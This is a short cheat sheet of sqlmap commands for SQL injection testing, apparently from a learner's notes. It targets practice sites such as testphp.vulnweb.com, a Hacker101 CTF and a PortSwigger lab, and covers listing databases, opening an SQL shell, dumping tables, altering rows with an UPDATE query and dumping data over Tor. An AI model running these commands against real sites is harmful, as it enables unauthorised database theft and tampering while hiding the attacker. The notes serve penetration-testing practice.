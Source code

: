

# SQLMap - Cheetsheat
https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap



## Step 1

```sh
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1"
```

Result
- Vulneruble parameter
    - Type
    - Title
    - Payload
- back-end DBMS 
- Web application technology



## Step 2
```sh
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
```

Result
- database names

At this moment check which databases are default in this DBMS, leave them and 
dump non-default databases.

MySQL default databases
- mysql 
- information_schema
- performance_schema
- sys

sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --sql-shell


## Step 3
```sh
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D <db-name> --tables
```
Result
- tables names for <db-name>


## Step 4
```sh
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D <db-name> --dump
```

Result
- dump of <db-name>


## Update database
sqlmap -u https://b97b4ef2b348bba9ad205c30e5e971c4.ctf.hacker101.com/fetch?id=1 -D level5 --sql-query="UPDATE photos SET filename='files/purrfect.jpg' WHERE id=3;"


## Login form
sqlmap -u https://$TARGET/login --data "username=a&password=b" -p username --dump --output-dir="db-dump"



## -------------------------------------------------------------
- sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D <db-name> --cookie="security=low; PHPSESSID=13o5hlkjs3hur2pvnfkgim9t74" --dump-all --batch --output-dir="db-dump" --random-agent --risk=3 --level=5 --tor


sqlmap -u "https://0aa1002c0316fe558188572400c800e6.web-security-academy.net/filter?category=Tech+gifts" --dbs public --sql-query "select * from users"
Upload File
